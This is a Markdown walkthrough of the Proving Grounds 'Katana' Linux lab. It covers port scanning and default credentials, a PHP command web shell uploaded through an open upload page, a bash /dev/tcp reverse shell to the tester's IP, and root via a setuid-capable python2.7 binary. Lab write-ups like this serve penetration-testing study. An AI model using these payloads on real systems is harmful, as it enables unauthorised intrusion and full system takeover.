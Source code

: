 ```yaml
---
layout: default
title: Katana
parent: Proving Grounds - Linux
nav_order: 2
---
```


# Katana

---

## Discovered Ports for Enumeration

- 21 - FTP
- 22 - SSH
- 80 - HTTP
- 7080 - empoweri
- 8088 - HTTP
- 8715 - HTTP

## Users and Credentials

- **Users**:
- **Credentials**:

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.183.83
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed.

## 80 - HTTP

Authenticate to /ebook/admin.php with **_admin:admin_** but ends up being deadend.

## 8088 - HTTP

Running **wfuzz** returns the following files:

- index.html
- upload.php
- upload.html

**upload.html** provides a place to upload files.

![upload](../../../assets/images/ctfs/proving_grounds/katana/upload.png)

### Upload PHP cmd shell

Create **shell.php** with the following contents:

```bash
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>
```

After successful upload the output indicates that the PHP web shell has been placed on the "other web server"

![upload_message](../../../assets/images/ctfs/proving_grounds/katana/upload_message.png)

# Exploitation

---

## Reverse Shell via PHP Web Shell

We have a PHP web shell with command execution.

Generate a reverse shell using **revshellgen**

```bash
# Generate reverse shell payload
revshellgen -i 192.168.45.217 -p 9001 -t bash

# URL encode the payload
urlencode "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1"

# Output
bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261
```

Execute the URL encoded payload in the PHP web shell

```bash
# URL to execute
http://192.168.183.83:8715/katana_shell.php?cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

Receive back a reverse shell on the netcat listener.

![rev_shell](../../../assets/images/ctfs/proving_grounds/katana/rev_shell.png)

# Post-Exploitation

---

## Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

![extend_cap](../../../assets/images/ctfs/proving_grounds/katana/extend_cap.png)

Within the /tmp directory, create **priv.py** that does the following:

1. Sets the UID to 0
2. Generates a /bin/bash shell

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

Make **priv.py** executable and run with python2.7 to get root shell.

![root](../../../assets/images/ctfs/proving_grounds/katana/root.png)
